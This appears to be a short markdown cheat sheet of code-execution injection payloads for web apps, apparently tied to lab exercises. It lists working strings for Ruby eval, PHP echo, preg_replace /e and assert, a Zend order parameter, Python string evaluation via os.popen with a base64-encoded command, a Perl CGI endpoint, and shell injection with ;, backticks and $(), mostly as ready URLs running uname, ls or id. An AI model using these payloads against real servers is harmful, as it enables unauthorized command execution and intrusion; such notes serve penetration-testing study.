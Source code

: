 # Web apps frameworks : Code Execution




## Ruby on rail
### eval

ActiveRecord (Ruby-on-Rails' most common data mapper)
Function eval with param. Add an error with "
````
POST: user[name]=bob&user[password]=pwd&user[admin]=true
@message = eval "\"Hello "+params['username']+"\""
username=hacker”+`uname -a`+” : échapper les + en %2B
http://ptl-f3335912-d8dff103.libcurl.so/?username=hacker%22%2B`uname%20-a`%2B%22
````

## php
### echo, print
Add a .system('ls'). in an echo $GET['name']
````
bob".system('ls')."bob
````
http://ptl-41df0d58-5b5fffd3.libcurl.so/?name=hacker”.system(‘ls’).”bob



### preg_replace()
php can filter thanks to preg_replace(). /e flag can be used.
Use arg in evaluation function
echo preg_replace("/([a-z]*)", "hacker", “you are a lamer’); => you are a hacker
echo preg_replace("/([a-z]*)/e", "hacker", “you are a lamer’); => eval “hacker”, replace hacker by system(‘ls’)
http://ptl-d47b409d-42207d73.libcurl.so/?new=system(‘ls’)&pattern=/lamer/e&base=Hello lamer

Use arg in assert
http://ptl-ac7d180e-5efc435d.libcurl.so/?name=hacker’.system(‘ls’).’ //


### php zend framework
````
?order=id;}//
?order=id);}//
?order=id));}//
Try to find the correct number of ) and }

Then ?order=id);}system('uname%20-a');//
````

## python
### print()
Check with " or '
````
Check :
http://vuln.com/hello/hacker” should generate error

Is python ? hacker”+str(True)+”test
http://vuln.com/hello/hacker"+str(True)+"test

Put code in str()
http://vuln.com/hello/hacker%22%2bstr(os.system('id'))%2b%22test

To get stdout, use os.popen('id').read()
http://vuln.com/hello/hacker%22%2bstr(os.popen('id').read())%2b%22test

If os is not loaded
http://vuln.com/hello/hacker%22%2bstr(__import__('os').popen('id').read())%2b%22test

Flask framework filter / after main path, encode it in base64
uname -a => __import__('base64').b64decode('dW5hbWUgLWE=')

http://ptl-7fc82aee-40987409.libcurl.so/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode(%22dW5hbWUgLWE=%22)).read())%2b%22test

Note :
+ %2b
" %22

````


## cgi in perl called by jquery
$.getJSON("/cgi-bin/hello?name="+document.location.hash.substring(1), function (data) {
http://ptl-f2dc2643-c482a93d.libcurl.so//cgi-bin/hello?name=bob%27.`uname`.%27


## shell 
### Add a command with ;
thanks to php exec
http://ptl-e178378e-fe879fa4.libcurl.so/?ip=127.0.0.1;ls

### Execute with back quote
````
http://ptl-4938c1df-399c9d4e.libcurl.so/?ip=`cmd`  : no output but cmd executed :)
=> ping -c 2 `cmd`
````

### $(command) to run a shell command.
````
http://ptl-836d9020-8f3b7b55.libcurl.so/?ip=$(touch /tmp/bob)
=> ping -c 2 $(touch /tmp/bob)
````

